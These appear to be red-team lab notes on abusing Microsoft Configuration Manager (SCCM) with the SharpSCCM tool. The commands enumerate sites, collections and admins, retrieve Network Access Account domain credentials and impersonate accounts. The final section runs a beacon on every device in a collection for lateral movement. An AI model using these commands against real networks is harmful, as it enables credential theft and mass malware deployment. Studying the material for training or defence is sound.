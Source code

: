 # Microsoft Configuration Manager Notes

new name for SCCM, helps push appliation and software deployments, updates and complienace configuration and reporting

we can use to abuse and push our own scripts, applications, or config changes

**Enumeration**

Tools:
[SharpSCCM](https://github.com/Mayyhem/SharpSCCM)


```
sharpsccm:
execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe local site-info --no-banner
wmi:
powershell Get-WmiObject -Class SMS_Authority -Namespace root\CCM | select Name, CurrentManagementPoint | fl
```

check the DACL on the CN=System Management container in AD for machines that have Full Control over it
```
execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get site-info -d cyberbotic.io --no-banner
```

enumerate all the collections for a user, we'll get different results per users and their permissions
```
confirm our user:
getuid
execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get collections --no-banner
make_token <user> <pass>
execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get collections --no-banner
```

find admin users
```
execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get class-instances SMS_Admin --no-banner
```

find users of a collection
```
execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get collection-members -n <collection-name> --no-banner
```

get more info
```
execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get devices -n WKSTN -p Name -p FullDomainName -p IPAddresses -p LastLogonUserName -p OperatingSystemNameandVersion --no-banner
```
The -u parameter will only return devices where the given user was the last to login.
```
execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get devices -u nlamb -p IPAddresses -p IPSubnets -p Name --no-banner
```

## Network Access Account Credentials

some computers may not be domain-joined and need an Network Access Account to sign in, these are domain creds for SCCM.

any user can retrieve these
```
execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe local naa -m wmi --no-banner
make_token <sccm svc account> <pass>
```

### Laterl Movement

To execute a command on every device in the DEV collection, we could do exec -n DEV -p <path>
```
execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe exec -n <collection> -p C:\Windows\notepad.exe --no-banner
executing a beacon on all sccm machines:
execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe exec -n DEV -p "C:\Windows\System32\cmd.exe /c start /b \\dc-2\software\dns_x64.exe" -s --no-banner
```


















